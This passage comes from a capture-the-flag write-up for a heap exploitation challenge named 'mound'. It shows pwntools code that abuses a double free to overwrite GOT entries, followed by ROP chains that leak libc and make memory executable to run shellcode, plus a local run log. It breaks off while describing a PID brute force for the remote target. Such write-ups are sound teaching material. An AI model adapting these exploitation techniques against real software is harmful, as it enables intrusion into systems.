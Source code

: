 ```python
free(0xf)
rm_id(chunk_id)
free(0xf) # mcache dup
add(midxs.mcache_dup, 0xe, fit(mound_data.mcache, mound_arena.mcache-0x10)) # overwrite ->next
add(midxs.mcache_dup, 0xd, 'hi')
add(midxs.mcache_dup, 0xc, fit(mound_data.mcache, context.binary.got['setvbuf'])) # overwrite .top
add(midxs.got_overwriter, 0xb, pack(context.binary.sym.win)) # overwrite got['scanf']

# win() will execute. Leak libc in the first cycle.
R = ROP(context.binary)
R.raw(0x48*b'a')
R.puts(context.binary.got['read'])
R.win()
r.sendlineafter(';)\n', R.chain())
context.libc.symbols['read'] = unpack(r.recvline()[:6], 'all')
# Using libc, change 0xbeef* to an rwx page, and jump to the shellcode that was allocated there earlier on.
R = ROP(context.libc)
R.raw(0x48*b'a')
R.mprotect(mound_data.base, 0x400000, 7)
R.call(mound_data.shellcode)
r.sendlineafter(';)\n', R.chain())
# get flag
print(r.recvall())
```

Locally, this works!

```c
[*] [libc] Running '/mound' with libs in '/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64'!
[+] Starting local process '/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/ld-linux-x86-64.so.2': pid 10422
[*] Loaded 15 cached gadgets for 'mound'
[*] Loaded 201 cached gadgets for '/libc-database/db/libc6_2.31-0ubuntu9.1_amd64.so'
[+] Receiving all data: Done (100B)
[*] Stopped process '/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/ld-linux-x86-64.so.2' (pid 10422)
b'test{flag}\n.^J\xb5o\x00\x00\x00\x00\x00\x00\x00\x00\xc72\x89f\xe9O\xc1\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```

On remote, this is a little more difficult. Paying attention to these two local-specific lines:

```python
r = context.binary.process()
libc.srand(t^r.pid)
```

I need some method to guess the PID of the challenge on remote. Considering that the standard maximum PID number is `1<<15`, I decided to try my luck with bruteforcing it<sup>5</sup>, replacing the code above with,
